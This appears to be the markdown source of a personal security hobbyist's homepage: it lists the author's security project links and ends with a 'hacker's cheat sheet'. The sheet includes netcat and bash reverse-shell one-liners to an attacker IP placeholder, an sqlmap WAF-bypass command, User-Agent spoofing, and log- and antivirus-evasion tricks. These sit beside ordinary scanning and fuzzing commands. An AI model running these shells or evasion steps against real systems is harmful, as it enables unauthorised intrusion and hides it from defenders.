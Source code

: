 ```yaml
---
layout: default
title: Home
---
```


# 🖥️ Welcome to WebPro's Hacker Space 🖥️

![Hacker Banner](https://user-images.githubusercontent.com/hacker-image.png)

Welcome to the dark side of the internet, where we explore cybersecurity, vulnerabilities, and cutting-edge technology.

---

## 🚀 Latest Projects 🚀

Here are some of the cool projects I’ve been working on:

- 🛠️ [HiddenSecTools](https://github.com/webpro255/HiddenSecTools) - A repository of hidden security tools.
- 🔍 [EventViewer-LogHunting](https://github.com/webpro255/EventViewer-LogHunting) - Hunt for security-relevant logs with Windows Event Viewer.
- 🛡️ [WordPress Forensics](https://github.com/webpro255/wordpress-forensics-tool) - Forensics tools specifically for WordPress investigations.
- 📊 [ELK-SOC-Tips](https://github.com/webpro255/ELK-SOC-Tips) - Tips and techniques for setting up an ELK stack in a SOC environment.
- 📡 [Network Traffic Visualization](https://github.com/webpro255/network-traffic-visualization) - Visualize network traffic in a clear and concise way.
- 🔧 [IT Support Scripts](https://github.com/webpro255/it-support-scripts) - A collection of useful scripts for IT support.
- 🔐 [IAM Policy Simulator](https://github.com/webpro255/iam-policy-simulator) - A project to simulate IAM policies for cloud security.
- 🔍 [Network Scanning Tools](https://github.com/webpro255/network-scanning-tools) - A collection of tools for network scanning and reconnaissance.
- 📈 [Network Anomaly Detection](https://github.com/webpro255/network-anomaly-detection) - Detect network anomalies using these tools and techniques.
---

## 👨‍💻 About Me 👨‍💻

I am WebPro, passionate about cybersecurity, ethical hacking, and building tools to create a more secure future. I love experimenting with new technologies, finding vulnerabilities, and sharing my knowledge with the community.

---
## 🕵️ Cybersecurity Challenge 🕵️

Want to test your skills? Try to crack the password in our **[Password Cracker Game](./cyber-game.html)** and see how quickly you can break in!

## 🎮 Play another Game 🎮

Feeling like taking a break? Try your hand at the **[Guess the Number Game](./game.html)** and see if you can guess the correct number!

---
## 🧠 Hacker's Cheat Sheet 🧠

Only true hackers will appreciate these gems—cutting-edge tips and tricks that can elevate your penetration testing and ethical hacking skills. 

### 🔥 1. Command Line Kung Fu

- **List all open ports** (with process info) on Linux:
  ```bash
  sudo netstat -tuln -p
  ```
> Quickly see what's open on your system without needing fancy tools.

- Find all hidden files on a Linux machine:
  ```
  find / -name ".*" -type f
  ```
> Great for uncovering hidden configurations or malicious scripts.

- Fast directory scanning with FFUF:
  ```
  ffuf -w /path/to/wordlist.txt -u https://example.com/FUZZ -e .php,.html,.txt -o output.txt
  ```
> Quick and powerful fuzzing to discover hidden directories.

### 🚀 2. Hidden Gems in Wireshark

- Capture only HTTP GET requests:

```
http.request.method == "GET"
```
> Skip the noise and capture just the GET requests to hunt for interesting activity.

- Filter for suspicious DNS activity:
  ```
  dns.qry.name == "evil.com"
  ```
> Target specific DNS queries to detect if someone's reaching out to malicious domains.

### 🔒 3. Bypass Techniques
- Bypass WAF using SQLMap with tamper scripts:
```
sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment --level=5 --risk=3
```
> Get around pesky WAFs with a tamper script and crank up the aggression.

- Custom User-Agent to fool detection systems:
```
curl -A "Googlebot/2.1 (+http://www.google.com/bot.html)" http://target.com

```
> Impersonate a search engine crawler to bypass access restrictions.

### 🛡️ 4. Advanced Reverse Shells

- Obfuscated Netcat reverse shell:

```
mkfifo /tmp/lolpipe; nc <attacker IP> <port> 0</tmp/lolpipe | /bin/sh >/tmp/lolpipe 2>&1; rm /tmp/lolpipe
```
> Use named pipes to create stealthier reverse shells, harder to detect by basic monitoring.

- Bash TCP reverse shell (for when Netcat isn’t available):
```
bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1
```
> Minimal footprint, effective on many Unix-based systems.
### 💻 5. Stealth Techniques
- Avoid logging by executing commands in memory (Linux):
```
exec /bin/bash 0</dev/null 2>/dev/null
```
> Run commands in a way that avoids leaving traces in `/var/log` files.

- Evade AV detection with PowerShell base64 encoding:
  ```
  powershell.exe -EncodedCommand <Base64 Encoded Command>
  ```
> Hide your PowerShell commands by encoding them in Base64, bypassing some AV detection.
### 🛠️ 6. Tools You Might Not Know (But Should)
- ([Obsidian]https://obsidian.md/)– A tool for creating encrypted vaults of notes and penetration testing playbooks
- ([Chaos Reader]http://chaosreader.sourceforge.net/) – Parse, analyze, and extract files from packet capture (.pcap) files.
- ([LinEnum]https://github.com/rebootuser/LinEnum)– A Linux enumeration script to quickly find privilege escalation vectors.
### 🎯 7. Fuzzing on Steroids
- Fuzzing APIs with POST requests using FFUF:
  ```
  ffuf -w wordlist.txt -X POST -d "parameter1=value&FUZZ=value" -u https://target.com/api/endpoint -o output.json
  ```
> Quickly find API vulnerabilities by fuzzing POST request bodies.

- Fuzzing JSON APIs with AFL (American Fuzzy Lop):
  ```
  afl-fuzz -i input/ -o output/ -- ./target_binary @@
  ```
> Use AFL to find memory corruption issues in JSON parsers, or other binary targets.
💡 **Bonus Tip**: Always remember to document your findings in detail. Hacking without reporting is just half the work. 😉
  

## 🤝 Connect with Me 🤝

Follow me on [GitHub](https://github.com/webpro255) for the latest updates, tools, and resources!

